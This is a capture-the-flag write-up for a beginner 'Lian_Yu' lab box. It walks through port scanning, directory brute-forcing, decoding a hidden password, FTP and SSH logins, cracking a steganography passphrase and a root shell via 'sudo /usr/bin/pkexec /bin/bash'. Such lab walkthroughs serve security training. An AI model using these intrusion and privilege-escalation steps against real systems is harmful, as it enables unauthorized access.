



# Lian_Yu

## Description

> Welcome to Lian_YU, this Arrowverse themed beginner CTF box! Capture the flags and have fun.

## Writeup

### Port Scan

Starting off I ran a **rustscan** scan over the full port range using the command `rustscan -a $IP -r 1-65535 --ulimit 5000 -g`.

```text
10.10.121.97 -> [21,22,80,111]
```

With this list of ports I can run a more targetted **nmap scan** to get the services and service versions.

**Command**: `nmap -p 21,22,80,111 -A -oA nmap-scan -v $IP`

```text
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.2
22/tcp  open  ssh     OpenSSH 6.7p1 Debian 5+deb8u8 (protocol 2.0)
| ssh-hostkey: 
|   1024 5650bd11efd4ac5632c3ee733ede87f4 (DSA)
|   2048 396f3a9cb62dad0cd86dbe77130725d6 (RSA)
|   256 a66996d76d6127967ebb9f83601b5212 (ECDSA)
|_  256 3f437675a85aa6cd33b066420491fea0 (ED25519)
80/tcp  open  http    Apache httpd
|_http-server-header: Apache
|_http-title: Purgatory
| http-methods: 
|_  Supported Methods: POST OPTIONS GET HEAD
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          42223/tcp   status
|   100024  1          48835/tcp6  status
|   100024  1          54239/udp   status
|_  100024  1          58148/udp6  status
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

### FTP Pt.1

I tried logging into **FTP** using `anonymous:""` but it wasn't allowed so now I know to look out for ftp credentials.

```text
❯ ftp $IP
Connected to 10.10.121.97.
220 (vsFTPd 3.0.2)
Name (10.10.121.97:sam): anonymous
530 Permission denied.
ftp: Login failed
ftp> bye
221 Goodbye.
```

### HTTP

Moving on to the web server on port 80, I started a directory scan using **Feroxbuster** and  `common.txt` from **SecLists** but it didn't return any good results so I tried `big.txt` which returned the following line:

`301      GET        7l       20w      235c http://10.10.121.97/island => http://10.10.121.97/island/`

Going to this page gives us the following which has hidden text but you can hit `Ctrl+A` to see the **Code Word** `vigilante`



From here I got super stuck so I used my first hint which said:

> In numbers

From that I though I shoud run a directory scan using a wordlist of numbers up to **10,000** using the following script

```python
with open("numbers.txt", "w") as file:
    for n in range(10000):
        file.write(str(n) + '\n')
```

Then using `feroxbuster --url http://$IP/island --wordlist=numbers.txt -t 200`. You might notice I scanned /island instead of / which is because /island gave me this result

`301      GET        7l       20w      240c http://10.10.121.97/island/2100 => http://10.10.121.97/island/2100/`

The page had a video which I couldn't view but the page had a comment that states `<!-- you can avail your .ticket here but how?   -->`

`.ticket` seems like a file extenstion so I went back to the directory scans.

**MASSIVE NOTE TO SELF:** use `/usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt`

I finally found a `.ticket` file at <http://10.10.121.97/island/2100/green_arrow.ticket> using the command `feroxbuster --url http://$IP/ --wordlist=/usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -x ticket -t 200`. The wordlist I used in this command actually gave every directory we found using multiple wordlists in one command so it's my new default.

Inside `green_arrow.ticket` we found:

```text

This is just a token to get into Queen's Gambit(Ship)


RTy8yhBQdscX
```

The text at the bottom looks like some kind of encoded text so I took it to [Multi-Decoder](https://www.cachesleuth.com/multidecoder/) and checked through the ROT-N and Base decoding sections cos they are the most common and the most legible thing I found was `!#th3h00d` under **Base58**

### Getting into FTP

After finding this I tried to brute force a ftp username using **hydra** but then I remembered that I found that code word `vigilante` and tried it as a user name which worked and using the password we found I got into the ftp server.

Inside we have a couple of images

```text
ftp> ls
229 Entering Extended Passive Mode (|||30682|).
150 Here comes the directory listing.
-rw-r--r--    1 0        0          511720 May 01  2020 Leave_me_alone.png
-rw-r--r--    1 0        0          549924 May 05  2020 Queen's_Gambit.png
-rw-r--r--    1 0        0          191026 May 01  2020 aa.jpg
226 Directory send OK.
```

Ok so from here I went through some basic steps to examine the files `file -> strings -> binwalk -> steghide` but I didn't find anything so I tried running **stegseek** to try and bruteforce a stegonography passphrase. Surprising my first attempt gave me a result.

Command: `stegseek aa.jpg /usr/share/SecLists/Passwords/Leaked-Databases/rockyou.txt`

Inside I found `ss.zip` which had `passwd.txt` and `shado`. `passwd.txt` didn't really have anything useful but `shado` gave what looked like a password (**M3tahuman**).

### Initial Access (SSH)

From here I tried bruteforcing the username for ssh with that password but in the meantime I went back to FTP because I realised that it isn't just 1 directory the server has listing for the whole device for some reason which gave me another username `slade`. (He is a M3tahuman)

Using `slade:M3tahuman` I was able to login to SSH which had a pretty cool welcome message



Inside slades home directory was `user.txt`

### Privilage Escalation: root

For privilage escalation on linux I normally start with `sudo -l` which did give me an entry with `root` using `pkexec`

```text
Matching Defaults entries for slade on LianYu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User slade may run the following commands on LianYu:
    (root) PASSWD: /usr/bin/pkexec
```

Going to [GTFOBins](https://gtfobins.github.io/gtfobins/pkexec/) shows that we can just use the command `sudo /usr/bin/pkexec /bin/bash` to get a root shell.



Now we can get `root.txt` inside `/root`!
